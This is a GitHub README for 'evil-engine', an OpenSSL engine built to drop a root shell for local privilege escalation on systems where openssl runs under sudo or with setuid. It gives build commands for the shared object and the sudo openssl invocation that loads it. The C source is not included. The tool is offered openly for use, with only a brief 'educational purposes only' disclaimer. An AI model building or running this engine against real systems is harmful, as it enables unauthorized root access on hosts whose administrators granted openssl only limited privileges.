

# evil-engine
Evil openSSL engine that drops a root shell when openssl can either be executed with sudo or is saved with setuid.
Can be used for local privilege escalation 

In some rare cases, administrators allow a local user to run openssl with root level privileges, this engine allows you get a root shell.

***For educational purposes only***

*I know there are other ways to get a root shell when openssl can be executed with sudo, but this doesn't have much impact on the system*

## Dependencies
- openssl header files

**Note**
There could be some version dependencies so make sure you use the same openssl version (engine.h).  
Also make sure to compile for 32 or 64 bit, depending on the openssl version running on the remote system.

To configure openssl for 32 bit on a 64 bit system use:
```
setarch i386 ./config -m32
```

Then use gcc -m32 to compile this evil-engine for 32 bit Linux in the following commands:

## Create the engine

```
# Compile: 
gcc -fPIC -o evil-engine.o -c evil-engine.c
# Create shared object file:
gcc -shared -o evil-engine.so -lcrypto evil-engine.o
```
## Use with openssl
```
sudo openssl req -engine $(pwd)/evil-engine.so
```

## Demo

